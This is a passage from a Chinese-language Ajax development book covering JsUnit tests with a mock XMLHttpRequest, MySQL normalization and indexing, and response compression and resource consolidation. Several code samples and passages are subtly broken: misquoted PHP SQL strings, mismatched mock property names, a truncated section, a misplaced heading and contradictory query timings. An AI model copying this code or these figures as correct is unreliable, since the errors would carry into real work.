fail(message)
```

为提供更实用的示例，下一个测试将覆盖第3章“客户端应用架构”中编写的`EventDispatcher`对象，其提供了以下功能：

```javascript
// If it supports the type, add the listener
EventDispatcher.prototype.addEventListener
    : function(type, listener) { ... }

// If it supports the type, remove the listener (capture ignored)
EventDispatcher.prototype.removeEventListener
    : function(type, listener) { ... }
// Cycle through all of the event listeners, passing the
// event to the callbacks. This, when EventListeners get
// added correctly, must call object methods without
// shifting this references to the EventDispatcher itself.
EventDispatcher.prototype.dispatchEvent
    : function(type, event) { ... }
```

注意此处并未包含每个方法的完整源代码。这不仅节省了页面空间，更引出了一个重要观点：测试用例应针对预期的、文档化的功能编写，而非直接基于实现该功能的代码编写。事实上，软件开发生命周期方法论之一的测试驱动开发（TDD），就遵循先编写单元测试再编写代码的模式，以限制代码缺陷并让开发者专注于当前任务（通过特定测试），而非同时混杂多个功能的开发。

#### 4.4.2 测试设置

由于`EventDispatcher`对象在JavaScript支持抽象类的情况下应具有`abstract`关键字，因此测试准备阶段需要扩展它。同时将创建一个对象专门用于事件监听器在事件触发时记录日志（包含事件类型），以便轻松判断是哪个事件最初触发了调用：

```javascript
/**
 * Extend the EventDispatcher with types one and three
 */
function TestDispatcher() { }
TestDispatcher.prototype = new EventDispatcher;
TestDispatcher.prototype.events = {
    'one' : [],
    'three' : []
};

/**
 * A variable to catch output generated by events
 */
var answers;

/**
 * A variable to become the TestDispatcher instance
 */

/**
 * A simple function to return the answer
 */
function whatDoYouGetWhenYouMultiplySixByNine(e) {
    if (!answers[e.type]) {
        answers[e.type] = {};
    }
    answers[e.type].whatDoYouGetWhenYouMultiplySixByNine = 42;
}
```

```javascript
/**
 * A simple object to return its answer
 */
function TestObject() { }
TestObject.prototype = {
    answer : 42,
    howManyRoadsMustAManWalkDown : function(e) {
        if (!answers[e.type]) {
            answers[e.type] = {};
        }
        answers[e.type].howManyRoadsMustAManWalkDown = this.answer;
    }
}
```

逐步分析：脚本首先扩展`EventDispatcher`类以创建具有“one”和“three”两种事件类型的调度器。由于这是针对`EventDispatcher`类的测试，`TestDispatcher`子类只需设置这些事件类型即可。

接着创建`answers`变量作为对象，供每个事件监听器在被调用时记录结果。对于大多数单元测试，方法调用更直接，返回值可在测试函数本身中检查。但由于此处的测试函数仅触发事件（事件不会从监听器返回），使用此类简单对象来保存待比较的值是有效的方案。

然后定义`whatDoYouGetWhenYouMultiplySixByNine()`函数，它将接受事件参数（因为测试函数会将其分配为事件监听器）。该函数的唯一作用是将答案存入`answers`对象，按类型分配并以自身函数名为键值。这样当（例如）类型为“one”的事件调用它时，`answers`变量将包含如下结构，便于解析分析：

```javascript
answers = {
    "one" : {
        "whatDoYouGetWhenYouMultiplySixByNine" : 42
    }
}
```

TestObject类及其howManyRoadsMustAManWalkDown()方法的功能与whatDoYouGetWhenYouMultiplySixByNine()函数几乎相同。它只是进一步验证了预期EventDispatcher类的一个特性：必须提供调用对象方法的途径，且该对象方法不会丢失通过this引用访问自身方法和对象变量的能力。

虽然下面展示的setUp()和tearDown()函数仍是实际测试准备的一部分，但JsUnit已预定义了这些函数。这使得测试页面中的每个测试函数在执行前都会调用setUp()，执行后都会调用tearDown()。在此场景中，每个测试函数都会获得全新的TestDispatcher实例和完全干净的answers对象。每个测试函数执行后，dispatcher和answers变量都会被设为null，以防止残留数据影响下一个测试：

```javascript
/**
 * Create a new instance of the TestDispatcher for testing
 */
function setUp() {
    dispatcher = new TestDispatcher();
    // Collects the results of each test fired
    answers = {};
}

/**
 * Clean up from the setUp() function
 */
function tearDown() {
    dispatcher = null;
    answers = null;
}
```

#### 4.4.3 测试本身

测试本身需要经过几个步骤才能开始对运行结果进行断言。虽然它本可以检查TestDispatcher实例内部的事件数组，但那样会违反测试功能API

而不是测试对象的内部结构。通过保持这种分离，可以确保在将来某个时候对象被完全重构（例如不再使用基于`events`变量的数组）时，单元测试仍然有效：

```
/**
 * 通过添加多种类型的监听器并验证有效和无效的分发行为
 * 来测试 addEventListener 方法
 */
function testEventDispatcher() {
    // 将函数添加到事件类型 "one"、"two" 和 "three"
    dispatcher.addEventListener(
        'one',
        whatDoYouGetWhenYouMultiplySixByNine
    );
    dispatcher.addEventListener(
        'two',
        whatDoYouGetWhenYouMultiplySixByNine
    );
    dispatcher.addEventListener(
        'three',
        whatDoYouGetWhenYouMultiplySixByNine
    );
    // 将对象方法添加到事件类型 "one" 和 "three"
    var test = new TestObject();
    var object_method = [
        test,
        TestObject.prototype.howManyRoadsMustAManWalkDown
    ];
    dispatcher.addEventListener('one', object_method);
    dispatcher.addEventListener('two', object_method);
    dispatcher.addEventListener('three', object_method);
    // 现在移除 "three" 上的初始监听器
    dispatcher.removeEventListener(
        'three',
        whatDoYouGetWhenYouMultiplySixByNine
    );
    // 触发每个事件，测试结果
    var e1 = new CustomEvent();
    e1.type = 'one';
    var e2 = new CustomEvent();
    e2.type = 'two';
    var e3 = new CustomEvent();
    e3.type = 'three';
    // "one" 事件应触发函数和方法的响应
    dispatcher.dispatchEvent('one', e1);
    assertEquals(answers.one.whatDoYouGetWhenYouMultiplySixByNine, 42);
    assertUndefined(answers.two);
    assertUndefined(answers.three);
    // "two" 事件应完全不触发任何响应
    dispatcher.dispatchEvent('two', e2);
    assertEquals(answers.one.whatDoYouGetWhenYouMultiplySixByNine, 42);
    assertUndefined(answers.two);
    assertUndefined(answers.three);
    // "three" 事件应只触发方法的响应
    dispatcher.dispatchEvent('three', e3);
    assertEquals(answers.one.whatDoYouGetWhenYouMultiplySixByNine, 42);
    assertUndefined(answers.two);
    assertUndefined(answers.three.whatDoYouGetWhenYouMultiplySixByNine);
    assertEquals(answers.three.howManyRoadsMustAManWalkDown, 42);
}
```

观察这个测试函数本身，可以看到它首先将函数 `whatDoYouGetWhenYouMultiplySixByNine()` 作为事件监听器添加到 "one"、"two" 和 "three" 三种事件类型上。它包含了未定义的 "two" 事件类型，因为测试必须确保 EventDispatcher 类在向未定义的事件类型添加监听器时不会神奇地添加事件，甚至不会崩溃。

接下来，它实例化 TestObject 类并创建数组，以便将方法 `howManyRoadsMustAManWalkDown()` 作为监听器传递，并使用测试对象作为其上下文。这个数组同样作为监听器被传递给 "one"、"two" 和 "three" 事件类型。

现在 TestDispatcher 实例已经为其每个事件类型分配了事件监听器，接下来调用 `removeEventListener()` 方法，以便测试可以查看它是否从正确的事件类型上移除了正确的监听器，并且只移除了该监听器。之后，创建三个 CustomEvent 实例，类型分别为 "one"、"two" 和 "three"，这样当事件触发函数调用时，它们可以被传递给匹配的类型以便于记录。

为了确保一种事件类型的分发只触发该事件本身，在每次分发事件后都会运行断言。随着事件分发的进行，`answers` 变量应按照上述概述进行填充，以便每种事件类型都有自己的对象，其中包含在测试开始时 `addEventListener()` 调用中添加的每个问题的答案。

#### 4.4.4 模拟对象

前面的示例对于孤立的功能运行良好，但 Web 应用程序中的大多数对象会与其他对象（通常是原生对象）交互，这些对象必须被排除在外才能确保准确的测试。创建模拟对象（即提供代码所期望的精确构造函数和接口的对象），不仅可以将这些代码包含在测试中，还可以确保代码能够记录进度并积极参与测试。

以下展示了一个模拟的 `XMLHttpRequest` 对象。它提供了 `AjaxRequest` 类引用的所有内容，并遵循 W3C 编写的 `XMLHttpRequest` 对象当前工作草案，在标记为同步或异步时以正确的时间和顺序分发事件：

```
/**
 * 一个用于替代实际 XMLHttpRequest 对象的模拟对象
 */
function XMLHttpRequest() { }
XMLHttpRequest.prototype = {
    // 跟踪状态
    tracking : {
        headers : {},
        method : null,
        get : null,
        post : null,
        asynchronous : null,
        user : null,
        password : null
    },
    // 用于模拟不同的 HTTP 响应头
    futureHeader : 200,

    // 标准属性
    responseText : null,
    responseXML : null,
    readyState : 0,
    status : null,
    statusText : null,

    // readyState 变化监听器
    onreadystatechange : null,

    // 重置为干净的对象
    reset : function() {
        this.tracking = {
            headers : {},
            method : null,
            get : null,
            post : null,
            asynchronous : null,
            user : null,
            password : null
        };
        this.responseText = null;
        this.responseXML = null;
        this.readyState = 0;
        this.status = null;
        this.statusText = null;
    },

    // 设置 HTTP 头
    setRequestHeader : function(key, value) {
        this.tracking.headers[key] = value;
    },

    // 打开初始请求
    open : function(method, url) {
        this.tracking.method = method;
        this.tracking.get = url;
        this.tracking.asynchronous = arguments[2];
        this.tracking.user = arguments[3];
        this.tracking.password = arguments[4];
        this.responseText = null;
        this.responseXML = null;
        this.status = null;
        this.statusText = null;
        return true;
    },

    // 发送请求
    send : function(content) {
        this.tracking.post = content;
        this.changeReadyState(1);
        if (this.tracking.asynchronous) {
            return this.sendAsynchronously(content);
        } else {
            return this.sendSynchronously(content);
        }
    },

    // 模拟异步性
    sendAsynchronously : function(content) {
        // 通过引用操作保持 this 完整性
        var dis = this;
        var tmp = function() {
            XMLHttpRequest.prototype.changeReadyState.apply(
                dis,
                (dis.readyState + 1)
            );
            if (dis.readyState < 4) {
                dis.timeout = setTimeout(tmp, 100);
            }
        }
        this.timeout = setTimeout(tmp, 100);
        return true;
    },

    // 模拟同步性
    sendSynchronously : function(content) {
        this.changeReadyState(2);
        this.changeReadyState(3);
        this.changeReadyState(4);
        return true;
    },

    // 中止请求
    abort : function() {
        if (this.timeout) {
            clearTimeout(this.timeout);
        }
        this.reset();
        return true;
    },

    // 改变状态并（可选地）触发 onreadystatechange
    changeReadyState : function(state) {
        this.readyState = state;
        // 状态在 3 时变为可用
        if (this.readyState == 3) {
            this.status = this.futureStatus;
        }
        // 必要时调用回调
        if (typeof this.onreadystatechange == 'function') {
            // 在 window 的上下文中调用
            this.onreadystatechange.call(window);
        }
    }
}
```

通过在测试脚本中包含此模拟对象，`AjaxRequest` 实例可以实例化一个 `XMLHttpRequest`，就脚本而言，该对象会发出请求，并在服务器将头信息和数据发回浏览器时触发其事件监听器。模拟对象跟踪提供的数据，确保头信息、请求字符串和方法都符合正常工作的 `AjaxRequest` 对象的要求。

#### 4.4.5 测试套件

在小规模上测试对象运行良好，但 Web 应用程序可以在界面的每个部分有许多对象，甚至在单个界面的每个功能部分都有对象。一旦编写了像前面那样的测试页面，就可以将它们绑定到测试套件中并批量运行：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" debug="true">
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
<title>Testing the ajax.lib.js library</title>
<script type="text/javascript" src="/utilities/jsunit/app/jsUnitCore.js"></script>
<script type="text/javascript">

function suite() {
    var ajax_suite = new top.jsUnitTestSuite();
    ajax_suite.addTestPage(
        '/projects/advanced%20ajax/tests/event_dispatcher.html'
    );
    ajax_suite.addTestPage(
        '/projects/advanced%20ajax/tests/ajax_request.html'
    );
```

# 142 第4章 调试客户端代码


## 第五章


## 本章内容

- 5.1 数据库性能 146
- 5.2 带宽与延迟 154
- 5.3 缓存 160
- 5.4 利用 HTTP/1.1 171
- 5.5 PHP 性能分析 178

性能优化一词涵盖了 Ajax 驱动的 Web 应用中的许多不同主题，因为它涉及许多不同的技术，这些技术共同在两台不同的机器上通过不可预测的 Internet 连接工作。前一章介绍了 JavaScript 分析，本章将在此基础上深入探讨，超越基于代码的问题。优化只有一部分与编码实践有关，而架构和技术使用方法则构成了开发人员使 Web 应用程序加载和运行更快的大部分工作。

通常，一旦应用程序开发完成，架构只允许探索这里提到的一小部分技术，但即使在问题领域只应用其中一两个技术，也能为应用程序的需求提升足够的性能。性能优化包含的内容远不止本章所涵盖的，但它确实为识别和消除（或至少绕过）应用程序中的瓶颈提供了几条良好路径的起点。

### 5.1 数据库性能

数据库延迟可能导致应用程序的大部分性能问题，因为一个设计不佳的架构、一个缺失的索引或一个匆忙编写的查询就足以使性能变得极其缓慢，甚至导致超时而完全停止。应用程序越复杂，就越容易出现缓慢的查询，尤其是当数据开始累积到每个表数百万行时。

开发人员往往认为数据库是应用程序中缓慢、繁琐但必要的部分。这种想法在数据库得到适当配置、良好设计的架构和深思熟虑的 SQL 语句时并不真正成立。典型企业数据库（如 Oracle 或 IBM DB2）所能达到的性能，同样可以从 MySQL 等数据库中获得，例如 Google、NASA、Yahoo! 和 YouTube 等组织就使用 MySQL。

#### 5.1.1 架构

数据库架构设计应该由有能力的数据库管理员（DBA）负责，但许多 Web 应用程序开始时只有一两名开发人员，他们在应用程序开发过程中逐步构建架构。这并不一定意味着开发人员永远不应该设计数据库架构，但这确实意味着开发人员往往会错过某些步骤，仅仅因为数据库配置、架构设计和查询优化并不经常进入日常活动。

当涉及到实现架构时，两种实践特别会对性能产生显著影响：规范化和索引。

##### 5.1.1.1 规范化

数据规范化过程巩固了数据集之间的关系，从而降低了当数据更改或与额外数据集复合时发生引用中断的风险。换句话说，规范化使得查询和更新数据变得更加清晰，因为数据集之间的连接复杂性和敏感性大大降低。

数据规范化有许多级别，尽管大多数开发人员尤其知道并追求第三范式。理解第一、第二和第三范式通常在应用于布局表结构的过程时显得容易得多，因此本节将创建表来存储用户数据、会话密钥和用户偏好。

第一范式要求每个表的每一列只能保存其可以包含的数据的一个单位。例如，`users` 表中的 `sessions` 列保存类似 `bb4b818f1f6b46dff6ce39dcb2b0ee06`、`b656d2097e7d3a2fcb4c7c28997e643c` 的值，这违反了这一要求，因为 `sessions` 列保存了多个会话 ID。为了将此要求应用于所需的用户、会话和偏好表，每个表将包含以下字段：

```
users (id, login, name, email, password, created)
sessions (id, user, created, expires)
preferences (id, description, user, value)
```

这些表中的每一个现在都有一个列用于保存它将保存的每个数据，并且每个都满足第一范式要求。每个列还遵循一些开发人员使用的命名约定，以便更容易地看到表之间的关系。`sessions` 表有一个 `user` 列，其中包含将表连接到 `users` 表的 `id` 列的值，`preferences` 表也有一个 `user` 列用于相同目的。第一范式并未强制要求此命名约定，但它应该使查看每个数据集之间的逻辑关系稍微容易一些。

对于第二范式，表列关系需要满足以下要求：所有不构成表的主标识符的列必须依赖于构成主标识符的所有列。对于前面的 `preferences` 表，`id` 和 `user` 列一起构成表的主标识符。然而，`description` 并不依赖于 `user`，但它确实依赖于 `id`。为了使此数据存在于满足第二范式要求的架构中，此表需要作为两个表存在：

```
preferences (id, description)
user_preferences (preference, user, value)
```

现在 `description` 仅依赖于偏好 `id`，而 `preference` 和 `user` 列构成新的 `user_preferences` 表的主标识符；此外，`value` 列依赖于这两者，因为用户可以有多个偏好，并且多个用户可以为同一偏好设置他或她自己的值。

第三范式规定，表中的所有列必须直接依赖于表的主标识符，而不是间接依赖。举一个经典的例子，如果 `users` 表保存每个用户的邮寄地址，那么该表包含城市、州和邮政编码字段是有意义的。然而，城市和州字段直接依赖于完整的邮政编码，只间接依赖于相关用户的主标识符。为了满足第三范式的要求，州需要依赖于国家表，城市需要依赖于州或地区表，以此类推。

###### 5.1.1.1.2 超越

规范化可以远超第三范式，导致第四、第五甚至第六范式，所有这些都增强了数据存储的清晰度并减少了重复。然而，一个应用程序的规范化级别并不适用于每个应用程序。连接操作，即使基于定义良好的主键和外键，也可能在性能方面给应用程序带来巨大损失。每个应用程序都需要仔细审查性能和数据组织之间的平衡。

##### 5.1.1.2 索引

虽然数据库表创建了保存大量数据的结构，但索引根据给定的表和列（或列组合）创建了数据本身的映射。没有此映射，查询处理必须使用强力排序和搜索算法来组织或定位查询本身，这会带来严重的性能损失。

继续使用 `users` 和 `sessions` 表，目前没有任何表对其任何列进行索引。当检查从客户端发送的会话 ID 时，应用程序还没有用户 ID，它可能会使用如下查询选择用户：

#### 5.1.2 查询

数据库服务器通常提供查询分析和优化工具，MySQL也不例外。MySQL的`EXPLAIN`语句用于分析和报告查询的处理方式，而不是实际运行查询本身。它会显示查询可能使用的索引，以及查询*实际*使用的索引；它还会显示其他信息，例如搜索方法以及查询的额外信息。使用`EXPLAIN`有助于通过即时查看查询的工作方式来发现瓶颈查询，并提供其性能表现的指标：

```sql
mysql> SELECT
    -> `users`.`id`, `users`.`name`, `user_preferences`.`preference`
    -> FROM `users`
    -> LEFT JOIN `user_preferences`
    -> ON `users`.`id` = `user_preferences`.`user`
    -> ORDER BY `users`.`name` DESC LIMIT 1;
```

这个相对简单的查询查找应用程序拥有的会话ID对应的记录，然后返回该会话ID对应的用户记录。此查询运行耗时1.01秒，乍看之下似乎不算太长，但此查询仅启动了应用程序处理，并会阻塞所有额外处理，直到它返回结果。

```sql
mysql> SELECT `users`.* FROM `users`, `sessions`
    -> WHERE `users`.`id` = `sessions`.`user`
    -> AND `sessions`.`id` = '06f416e31a348cb65b47172cc65e6050';
```

| id    | login       | name        | email | password                             | created             |
|-------|-------------|-------------|-------|--------------------------------------|---------------------|
| 123458 | login_123456 | Name 123456 |       | 94dd6a3ec36b61c0984a9ea7df3ebf2c | 2007-05-01 16:52:37 |

通过查看查询中使用的表列及其使用频率，可以明确放置索引的必要性。通过将`users.id`列标记为主键（运行`ALTER TABLE users ADD PRIMARY KEY (id);`），为`users.id`列创建索引后，相同的select查询现在耗时0.47秒。通过运行`ALTER TABLE sessions ADD PRIMARY KEY (id);`将`id`指定为`sessions`表的主键，处理时间降至显著的0.00秒，基本上意味着它运行速度快于0.005秒。

这个查询曾耗时超过85,000秒，当数据结构如此简单且要求Web应用程序与之交互时，这显然对任何应用程序都无法正常工作。为了追踪此查询的问题，请使用`EXPLAIN`工具。MySQL提供了此工具（其他数据库引擎通常也有类似工具），它将详细解释MySQL如何处理查询：

```sql
mysql> EXPLAIN SELECT
    -> `users`.`id`, `users`.`name`, `user_preferences`.`preference`
    -> FROM `users`
    -> LEFT JOIN `user_preferences`
    -> ON `users`.`id` = `user_preferences`.`user`
    -> ORDER BY `users`.`name` DESC LIMIT 1;
```

| id | select_type | table          | type  | possible_keys | key             | key_len | ref          | rows     | Extra                    |
|----|-------------|----------------|-------|---------------|-----------------|---------|--------------|----------|--------------------------|
| 1  | SIMPLE      | users          | ALL   | NULL          | NULL            | NULL    | NULL         | 1000001  | Using temporary; Using filesort |
| 1  | SIMPLE      | user_preferences | index | NULL          | PRIMARY         | 106     | NULL         | 1000001  | Using index              |

此数据显示，查询中的两个表都没有可帮助缩小可能匹配记录范围的索引。`user_preferences`表有部分主键，覆盖了`user`列，但这对本查询没有帮助。查询的`users`部分没有任何长度的可能键，导致仍有1,000,001条记录需要处理，从而需要临时表和文件排序来返回请求的信息。这进一步加剧了搜索负担，使得MySQL需要将1,000,001条`users`记录与1,000,001条`user_preferences`记录逐一进行比较。

问题始于按`name`列排序，这可能在应用程序本身中就很常见，因为用户和管理员都发现按全名或别名查看人员列表比按数字ID查看更容易。通过向`users.name`列添加一个名为`user_name`的索引（查询语句：`ALTER TABLE users ADD INDEX user_name (name);`）可以解决排序问题。

另一个问题源于`user_preferences.user`列缺少综合索引，可以通过运行`ALTER TABLE user_preferences ADD INDEX preference_user (user);`为其创建一个类似的索引。这也会创建一个命名索引，使连接操作更加高效。

根据`EXPLAIN`查询返回的信息添加这些索引后，再次运行相同的`EXPLAIN`查询，报告显示如下：

| id | select_type | table          | type | possible_keys  | key             | key_len | ref          | rows | Extra |
|----|-------------|----------------|------|----------------|-----------------|---------|--------------|------|-------|
| 1  | SIMPLE      | users          | index | NULL          | user_name       | 257     | NULL         | 1000001 |       |
| 1  | SIMPLE      | user_preferences | ref  | preference_user | preference_user | 4       | ajax.users.id | 1    |       |

此结果显示，虽然查询仍需对`users`表中的1,000,001行进行排序，但现在将使用`user_name`索引，无需临时表和文件排序，并将搜索限制在索引内，而非依赖于对所有记录的全表扫描。`user_preferences`表上新的`preference_user`索引将连接的可能匹配行数减少到一行。type列显示搜索方法已从`index`变为`ref`，这意味着它现在可以将`user_preferences`表的搜索范围缩小到仅与`WHERE`子句中的约束完全匹配的行。

使用这些新键运行相同的查询，耗时少于0.005秒：

```sql
mysql> SELECT
    -> `users`.`id`, `users`.`name`, `user_preferences`.`preference`
    -> FROM `users`
    -> LEFT JOIN `user_preferences`
    -> ON `users`.`id` = `user_preferences`.`user`
    -> ORDER BY `users`.`name` DESC LIMIT 1;
```

| id     | name        | preference       |
|--------|-------------|------------------|
| 1000001 | Name 999999 | favorite_number |

更复杂的需求可能没有如此简单的解决方案来应对性能迟缓。在这些情况下，将查询拆分为两个或多个查询，而不是使用复杂的连接，可能更有意义。可能需要针对每种情况进行快速实验以确定更快的方法，但有时，即使考虑延迟因素，几个快速查询也可能比一个包罗万象的查询运行得更快。

### 5.2 带宽与延迟

无论在Web应用程序上进行多少服务器端性能优化工作，带宽和延迟都可能将应用程序的性能拖慢至迟缓的程度，而这些阻碍超出了开发人员或服务器管理员的直接控制范围。对于公开可用的Web应用程序，某些用户可能使用拨号调制解调器或慢速有线连接。即使是企业内部网应用程序，用户也可能出差并通过酒店或咖啡馆的VPN连接访问应用程序，而这些地方的连接可能不够稳定快速。

#### 5.2.1 带宽

为了防范意外的带宽不足，应用程序应将客户端与服务器之间的通信限制在绝对必要的发送范围内。不必要的冗长或“啰嗦”的通信会拖慢数据传输，并迫使实际数据等待可用的带宽。

##### 5.2.1.1 JSON的优势

在带宽使用方面，与任何XML格式相比，JSON具有明显的优势。以下四个示例展示了返回用户ID、登录名和全名时在两种标准XML格式、一种自定义XML格式和一种JSON格式下的字节使用情况。

一个SOAP响应使用388字节：

```xml
<?xml version="1"?>
<soap:Envelope
xmlns:soap="http://www.w3.org/2001/12/soap-envelope"
soap:encodingStyle="http://www.w3.org/2001/12/soap-encoding">
    <soap:Body xmlns:m="http://intranet.frozen-o.com/xmlns/user">
        <m:GetUser>
            <m:UserId>196</m:UserId>
            <m:UserLogin>lychrel</m:UserLogin>
            <m:UserName>Wade VanLanding</m:UserName>
        </m:GetUser>
    </soap:Body>
</soap:Envelope>
```


##### 5.2.1.2 输出压缩

Apple 的 plist 格式使用 342 字节：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN"
 "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
        <key>id</key>
        <integer>196</integer>
        <key>login</key>
        <string>lychrel</string>
        <key>name</key>
        <string>Wade VanLandingham</string>
</dict>
</plist>
```

这种自定义 XML 格式使用 125 字节：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user>
    <id>196</id>
    <login>lychrel</login>
    <name>Wade VanLandingham</name>
</user>
```

这个 JSON 对象使用 70 字节：

```json
{
    "id" : 196,
    "login" : "lychrel",
    "name" : "Wade VanLandingham"
}
```

尽管这里的差异可能不算大，但当从服务器向客户端发送数千条记录时，这些微小的差异就会被放大。在实践中，应用程序通常不需要向客户端发送如此大量的数据，更不应该使用单个 XMLHttpRequest 响应；然而，每次请求都会累积带宽使用量。此外，某些应用程序（如实时游戏、市场追踪应用等）确实需要从每个请求中榨取尽可能多的带宽使用。

无论实际的响应格式如何，gzip 压缩响应都能极大地改善带宽使用，代价是服务器处理输出有轻微增加，以及浏览器在接收到响应后需要进行解压缩。通过扩展前面描述的自定义 XML 格式，此处的示例将使用之前创建的 `users` 数据库表中 50 个用户的输出，而不是单个记录，这使得 `Content-Length` 为 4310 字节。发送的数据量越大，输出压缩的帮助就越大，客户端接收速度就越快：

```php
ob_start();
echo '<?xml version="1.0" encoding="UTF-8"?>', "\n";

$handle = new PDO('mysql:host=localhost;dbname=ajax', 'ajax', 'ajax');
$handle->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

$query = "SELECT 'id', 'login', 'name' FROM 'users' ORDER BY 'name' LIMIT 50";
foreach ($handle->query($query, PDO::FETCH_ASSOC) as $user) {
  echo "<user>\n",
       "\t<id>",$user['id'],"</id>\n",
       "\t<login>",$user['login'],"</login>\n",
       "\t<name>",$user['name'],"</name>\n",
       "</user>\n";
}

header('Content-Length: ' . ob_get_length());
ob_flush();
```

通过切换到使用 gzip 的输出压缩，内容长度降至 489，如 telnet 输出所示：

```
GET /projects/advanced%20ajax/sample%20code/gzip.php HTTP/1.1
Host: 192.168.2.106
Accept-Encoding: gzip

HTTP/1.1 200 OK
Date: Sat, 05 May 2007 18:27:28 GMT
Server: Apache/2.2.3 (Unix) PHP/5.2.2
X-Powered-By: PHP/5.2.2
Content-Length: 489
Content-Encoding: gzip
Vary: Accept-Encoding
Content-Type: text/html
```

对于这个特定示例，当使用 deflate 时，内容长度降至 477：

```
GET /projects/advanced%20ajax/sample%20code/gzip.php HTTP/1.1
Host: 192.168.2.106
Accept-Encoding: deflate

HTTP/1.1 200 OK
Date: Sat, 05 May 2007 18:26:59 GMT
Server: Apache/2.2.3 (Unix) PHP/5.2.2
X-Powered-By: PHP/5.2.2
Content-Length: 477
Content-Encoding: deflate
Vary: Accept-Encoding
Content-Type: text/html
```

使用的压缩方法取决于请求在 `Accept-Encoding` 头中指定了什么，但所有主流浏览器至少指定 `gzip,deflate`，意味着它可以接受这两种中的任何一种。

PHP 有两种使用 zlib 进行输出压缩的方法：在 `php.ini` 中全局设置 `zlib.output_compression` 条目为 `on`（或设置为一个整数以指定输出缓冲区大小），或者通过将 `ob_gzhandler()` 输出回调函数传递给 `ob_start()` 来手动缓冲输出：

```php
ob_start('ob_gzhandler');
echo "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n";

$handle = new PDO('mysql:host=localhost;dbname=ajax', 'ajax', 'ajax');
$handle->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

$query = 'SELECT 'id', 'login', 'name' FROM 'users' ORDER BY 'name' LIMIT 50';
foreach ($handle->query($query, PDO::FETCH_ASSOC) as $user) {
    echo "<user>\n",
        "\t<id>".$user['id']."</id>\n",
        "\t<login>".$user['login']."</login>\n",
        "\t<name>".$user['name']."</name>\n",
        "</user>\n";
}

header('Content-Length: ' . ob_get_length());
ob_flush();
```

虽然在输出缓冲中显式使用 `ob_gzhandler()` 给开发者提供了更多控制权，但其速度不如简单地在 `php.ini` 文件中开启 `zlib.output_compression`。

#### 5.2.2 延迟

延迟通常在两种常见情况下引起问题：初始化一个包含大量关联文件（CSS、JavaScript、图像等）的接口加载，以及通过 Ajax 频繁地与服务器往返通信。只在自己的机器或本地网络上工作的开发者很容易忘记，会有许多用户从世界各地或通过高延迟网络上的 VPN 使用该应用程序。

##### 5.2.2.1 资源合并

资源合并可以减少初始化加载接口所需的请求数量，极大地改善感知的启动时间，尤其是在延迟较高的情况下。应用程序可以在构建网站时合并资源，为每个文件组合创建扁平的、可缓存的文件，或者可以根据请求动态创建它们。

这与大多数其他性能增强一样，存在一定的平衡，这依赖于应用程序本身的结构以找到最优化的使用方式。应用程序可以为每个页面创建一个缓存的 JavaScript 文件，但这会使浏览器难以重用缓存的文件来加载多个接口。

例如，用户注册页面在页面 `head` 中包含了几个外部 JavaScript 文件：

```html
<!--[if IE]>
<script type="text/javascript" src="../includes/main_ie.lib.js"></script>
<![endif]-->
<script type="text/javascript" src="../includes/main.lib.js"></script>
<script type="text/javascript" src="../includes/ajax.lib.js"></script>
<script type="text/javascript" src="../includes/effects.lib.js"></script>
<script type="text/javascript" src="controllers/registration/javascripts/default.js"></script>
```

理论上，这可以包含一个单独的、合并的 JavaScript 文件 `registration_default.js`，但那样自定义的 IE 脚本就会对所有浏览器都显示出来。从逻辑上讲，IE 脚本不能放在合并文件中，那么 `head` 将包含以下内容：

```html
<!--[if IE]>
<script type="text/javascript" src="../includes/main_ie.lib.js"></script>
<![endif]-->
<script type="text/javascript" src="controllers/registration/javascripts/registration_default.js"></script>
```

然而，这个例子仍然有一个问题：当用户导航到应用程序中的另一个页面时，该接口将有自己的合并 JavaScript 文件；这种过度合并会导致大量重复代码通过网络传输并最终存在于几个不同的缓存 JavaScript 文件中。在这种情况下，将三个主要脚本（main.lib.js、ajax.lib.js 和 effects.lib.js）合并到一个文件中更有意义；然后，每个接口仍然可以拥有自己的自定义脚本（如果需要）：

```html
<!--[if IE]>
<script type="text/javascript" src="../includes/main_ie.lib.js"></script>
<![endif]-->
<script type="text/javascript" src="../includes/all.lib.js"></script>
<script type="text/javascript" src="controllers/registration/javascripts/default.js"></script>
```

这种标记仍然意味着需要发出三个请求才能加载所有 JavaScript，但完整的三个请求只针对 IE。所有其他浏览器现在将只有两个请求，而不是合并前的四个。如果合并过程同时缩减了文件（移除注释、不必要的空白等），这也可以在减少高延迟影响的同时节省带宽。

> 除了资源合并，JavaScript 在移除多余的空白和其他注释后，可以占用更少的空间；其他技巧，例如为内部标识符赋予简短名称，也有帮助。存在许多工具来缩减 JavaScript 文件；其中包括 Dojo ShrinkSafe (http://alex.dojotoolkit.org/shrinksafe)，它基于 Rhino JavaScript 解释器。在本书创建的 Ajax 库的最终版本上使用 ShrinkSafe，在任何额外压缩之前，文件大小从 16,362 字节减少到了 6,010 字节。

资源的合并并不一定意味着应用程序只有文本资源，如 CSS 和 JavaScript。多个图像可以驻留在同一个图像文件中，并使用 CSS 来为这些图像设置样式，可以将特定用途的显示减少到只显示所需的图像。这增加了一点显示图像的复杂性，但在某些情况下使用时（尤其是在导航、图表和图标方面），它可以极大地减少加载页面所需的请求数量，并在处理动态图像替换时消除对图像预加载的需求。


##### 5.2.2.2 请求队列

将资源整合的理念应用于已加载的客户端应用，在某些情况下，向服务器发出的请求可以合并以共享相同的响应。优先级较低的请求，例如设置选项或向数据库记录日志，可以排入队列等待下一个包含它们的请求；如果在合理时间内未找到这样的请求，应用程序则直接将整个队列的内容发送到服务器。

